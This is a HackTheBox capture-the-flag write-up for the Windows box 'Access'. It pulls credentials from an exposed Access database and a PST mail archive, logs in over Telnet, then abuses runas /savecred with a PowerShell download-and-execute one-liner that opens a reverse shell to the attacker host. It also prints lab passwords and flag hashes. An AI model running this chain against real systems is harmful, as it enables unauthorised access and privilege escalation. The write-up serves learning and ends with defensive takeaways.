 # HTB: Access

## Engagement Overview

**Target:** Access  
**Box IP:** 10.10.10.98   
**Date:** 2025-09-16    
**Attacker Host:** 10.10.14.3   

---

### Objectives

- Enumerate services and discover exposed files.  
- Extract credentials from backups/mail archives.  
- Gain initial foothold via Telnet.  
- Escalate to Administrator using misconfigured runas/savecred.  
- Capture `user.txt` and `root.txt`.  

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -T5 -oN logs/nmap 10.10.10.98
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
23/tcp open  telnet  Microsoft Telnet
80/tcp open  http    Microsoft IIS httpd 7.5
```

### Web/FTP Discovery

- FTP anonymous access allowed.  
- Retrieved files:  
  - `Backups/backup.mdb`  
  - `Engineer/Access Control.zip` → contained `Access Control.pst`.  

```bash
# Mirror
wget -m ftp://anonymous:anonymous@10.10.10.98
```

---

## Initial Access

### Credential Extraction

From `backup.mdb` (auth_user table):  

- `engineer:access4u@security`  

```bash
# quick string search
strings 10.10.10.98/Backups/backup.mdb | grep -C3 access

admin
engineer
access4u@security

# Alternate method mdbtools (export auth_user)
mdb-tables backup.mdb

# Clean up output to see tables
mdb-tables backup.mdb | tr ' ' '\n' | grep . | while read table; do lines=$(mdb-export backup.mdb $table | wc -l); if [ $lines -gt 1 ]; then echo "$table: $lines"; fi; done
acc_timeseg: 2

# List table data
mdb-export backup.mdb auth_user
```

Password unlocked `Access Control.zip` → contained `Access Control.pst`.  
From PST (email):  

- `security:4Cc3ssC0ntr0ller`  

```bash
# PST -> MBOX
7z x "Access Control.zip"
readpst "Access Control.pst"
less "Access Control.mbox"
```

### Telnet Login

```bash
telnet 10.10.10.98
# login: security
# password: 4Cc3ssC0ntr0ller
```

```cmd
C:\Users\security> whoami
access\security

C:\Users\security> type Desktop\user.txt
cb237095f1d0b24079794fa1a2932c1b
```

---

## Privilege Escalation

### Suspicious LNK

Found `ZKAccess3.5 Security System.lnk` referencing:  

```cmd
runas.exe /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

### Abusing Saved Credentials

Hosted Nishang PowerShell one-liner on attacker machine and executed via runas:  

```powershell
# attacker
nc -lnvp 443

# target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3/shell.ps1')"
```

Reverse shell established as Administrator:  

```cmd
PS C:\Users\Administrator\Desktop> type root.txt
bc97e19e6897f692e5272f63e763a3a8
```

---

## House Cleaning

- Removed hosted `shell.ps1` from attacker box.  
- No persistence or artifacts left on target.  

---

## Tools Utilized

- `nmap`, `gobuster`  
- `strings`, `mdbtools`, `readpst`  
- `telnet`, `nc`  
- `runas`, `powershell` (Nishang one-liner)  

---

## Key Takeaways

- Backup and PST files exposed sensitive credentials.  
- Weak service configuration (Telnet, anonymous FTP) enabled easy access.  
- Misconfigured `runas /savecred` allowed privilege escalation.  
- Defensive measures: restrict backup access, remove Telnet, audit saved credentials, monitor PowerShell downloads.  
